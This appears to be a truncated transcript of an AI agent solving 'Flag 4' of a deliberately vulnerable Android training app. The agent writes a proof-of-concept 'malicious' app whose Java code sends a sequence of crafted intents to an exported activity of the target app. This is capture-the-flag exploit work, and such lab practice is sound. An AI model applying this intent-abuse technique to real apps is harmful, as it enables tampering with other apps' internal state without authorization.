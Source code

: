 --- Parsed Reasoning/Thought ---
🧠 Analytical Reasoning:
*   **1. Code Comprehension:** This is the `AndroidManifest.xml` for the malicious PoC application. It declares a single activity, `MaliciousFlag4PoC`, and sets it as the main launcher activity. The `android:exported="true"` attribute is important as it allows other applications (including the target app) to interact with this activity, though in this case, the malicious app is initiating the interaction.
*   **2. Threat Modeling (Sources & Sinks):**
    *   **Sources:** N/A for this manifest file.
    *   **Sinks:** N/A for this manifest file.
*   **3. Data Flow Tracing:** N/A for this manifest file.
*   **4. Security Control Analysis:** N/A for this manifest file.
*   **5. Vulnerability Hypothesis:** The manifest correctly sets up a basic Android application structure for the PoC. The next step is to create the Java source code for `MaliciousFlag4PoC.java` that will send the sequence of intents to `Flag4Activity`.

My PoC will be a small, self-contained malicious Android application that I will write to a file. It will have its own `AndroidManifest.xml` and Java source file. It will target an exported component (Activity, Service, etc.) of the main application.

--- Tool Call ---
write_to_file({'content': 'package com.example.maliciousapp;\n'
            '\n'
            'import android.app.Activity;\n'
            'import android.content.ComponentName;\n'
            'import android.content.Intent;\n'
            'import android.os.Bundle;\n'
            'import android.util.Log;\n'
            'import android.widget.Toast;\n'
            '\n'
            'public class MaliciousFlag4PoC extends Activity {\n'
            '\n'
            '    private static final String TAG = "MaliciousFlag4PoC";\n'
            '    private static final String TARGET_PACKAGE = '
            '"io.hextree.attacksurface";\n'
            '    private static final String TARGET_ACTIVITY = '
            '"io.hextree.attacksurface.activities.Flag4Activity";\n'
            '\n'
            '    @Override\n'
            '    protected void onCreate(Bundle savedInstanceState) {\n'
            '        super.onCreate(savedInstanceState);\n'
            '        setContentView(R.layout.activity_main); // Assuming a '
            'simple layout exists or can be ignored for PoC\n'
            '\n'
            '        Log.d(TAG, "MaliciousFlag4PoC started.");\n'
            '        Toast.makeText(this, "Attempting to solve Flag 4...", '
            'Toast.LENGTH_LONG).show();\n'
            '\n'
            '        try {\n'
            '            // Step 1: Transition to PREPARE state\n'
            '            Intent prepareIntent = new Intent();\n'
            '            prepareIntent.setComponent(new '
            'ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n'
            '            prepareIntent.setAction("PREPARE_ACTION");\n'
            '            startActivity(prepareIntent);\n'
            '            Log.d(TAG, "Sent PREPARE_ACTION intent.");\n'
            '            Thread.sleep(1000); // Give target activity time to '
            'process\n'
            '\n'
            '            // Step 2: Transition to BUILD state\n'
            '            Intent buildIntent = new Intent();\n'
            '            buildIntent.setComponent(new '
            'ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n'
            '            buildIntent.setAction("BUILD_ACTION");\n'